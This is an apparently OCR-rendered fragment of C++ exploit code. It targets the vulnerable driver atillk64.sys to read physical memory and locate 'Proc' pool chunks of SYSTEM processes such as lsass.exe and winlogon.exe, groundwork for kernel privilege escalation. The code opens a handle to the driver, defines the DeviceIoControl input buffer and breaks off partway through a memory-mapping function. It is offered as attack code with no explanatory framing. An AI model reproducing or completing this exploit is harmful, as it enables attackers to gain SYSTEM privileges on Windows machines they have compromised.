 ```cpp
// Creating vector of hex representation of ImageFileNames of common 
// SYSTEM processes, eg. 'wmlms.exe' = hex('exe.smlw')
vector<INT64> SYSTEM_procs = {
    0x78652e7373727363,         // csrss.exe
    0x78652e737361736c,         // lsass.exe
    0x6578652e73736d73,         // smss.exe
    0x7365636976726573,         // services.exe
    0x6b6f72426d726753,         // SgrmBroker.exe
    0x2e76736c6f6f7073,         // spoolsv.exe
    0x6e6f676f6c6e6977,         // winlogon.exe
    0x2e74696e696e6977,         // wininit.exe
    0x6578652e736d6c77,         // wlms.exe
};

// Creating struct for our input buffer to DeviceIoControl
typedef struct {
    INT64 start_address;
    DWORDLONG num_of_bytes;
    DWORDLONG padding;
} INPUT_BUFFER;

// This struct will hold the address of a "Proc" tag and that Proc chunk's 
// header size
struct PROC_DATA {
    std::vector<INT64> proc_address;
    std::vector<INT64> page_entry_offset;
    std::vector<INT64> header_size;
};

// Grabs handle to atillk64.sys
HANDLE get_handle(const char* device_name) {
    HANDLE hFile = CreateFileA(
        device_name,
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        0,
        NULL);

    if (hFile == INVALID_HANDLE_VALUE)
    {
        cout << "[!] Unable to grab handle to atillk64.sys.\n";
        exit(1);
    }
    else
    {
        string hex_output = pretty_hex((int)hFile);
        cout << "[>] Successfully grabbed handle to atillk64.sys: "
            << hex_output << "\n";

        return hFile;
    }
}

// Mapping memory from a physical address to our process virtual space
PROC_DATA map_memory(HANDLE device_handle) {

    LPVOID output_buff = VirtualAlloc(
        NULL,
        0x8,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE);
```